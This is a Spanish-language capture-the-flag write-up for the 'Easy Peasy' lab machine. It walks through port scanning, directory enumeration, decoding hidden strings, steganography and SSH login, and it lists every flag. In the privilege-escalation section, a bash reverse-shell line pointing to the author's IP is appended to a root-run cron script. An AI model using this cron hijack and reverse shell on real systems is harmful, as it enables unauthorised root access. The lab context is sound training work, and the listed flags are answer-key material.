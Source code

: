 # Easy Peasy
El nombre cumple lo que promete
## Network scan

```nmap
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
```

## Enumeration 

### HTTP
El primer gobuster que usamos nos muestra un directorio llamado hidden, veamos si escaneando recursivamente encontramos algo
```
gobuster -u http://10.10.172.4/hidden -w /usr/share/dirb/wordlists/big.txt -t 100
    /whatever
```

El header de esta página es dead end, miremos el source a ver si hay algo que nos aporte alguna pista 

```html
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```

Lo decodificamos y tenemos la primera flag
```flag
flag{f1rs7_fl4g}
```

### HTTP Apache

En robots.txt tenemos una entrada un tanto extraña:
```robots.txt
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
Usando este user-agent podemos acceder a la pagina donde veremos la flag numero 3 , aunque realmente no hace falta, lo que me lleva a preguntarme para que esta, asi que empece a probar tools online para decodificarm finalmente es el MD5 de la flag
```flag
flag{1m_s3c0nd_fl4g}
```

En la página podemos ver la flag 3 
```flag
flag{9fdafbd64c47471a8f54cd3fc64cd312} 
```
Mirando en el fuente encontramos varias cosas que me llaman la atención
```html
<!--      <div class="table_of_contents floating_element">
        <div class="section_header section_header_grey">
          TABLE OF CONTENTS
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#about">About</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#flag">hi</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#scope">Scope</a>
        </div>
        <div class="table_of_contents_item floating_element">sando la 
          <a href="#files">Config files</a>
        </div>
      </div>
-->
```
```html
<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```
Esta encoded en base62 y el resultado es /n0th1ng3ls3m4tt3r

Accedamos a ese directorio y veremos que en el fuente hay un string encoded pero no sabemos el formato, una pista nos dice que es GOST 
```html
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
```

Usando la web de md5hashing para hacer hash lookup obtenemos que la password hasheada es mypasswordforthatjob

Podemos usar esta pass para extraer unas creds de la imagen usando steghide
```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```
Veamos en que decodifica el binario

```
iconvertedmypasswordtobinary
```
Finalmente las creds son 
```
boring:iconvertedmypasswordtobinary
```

Veamos si valen para el SSH

```
me@me:~$ ssh boring@10.10.176.97 -p 6498
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

Aplicamos ROT13 a el texto y nos sale una flag
```
flag{n0wits33msn0rm4l}
```

## Privesc

Viendo el crontab tenemos la siguiente linea
```
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
Veamos si podemos editar de algun modo ese archivo
```
-rwxr-xr-x  1 boring boring   33 Jun 14 22:43 .mysecretcronjob.sh
```
Parece que si, veamos si puedo invocar una reverse shell hacia mi máquina 

```
echo 'bash -i >& /dev/tcp/10.9.95.54/4444 0>&1' >> /var/www/.mysecretcronjob.sh
```

Y obtenemos una shell en nuestra máquina
```
root@kral4-PC:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
```

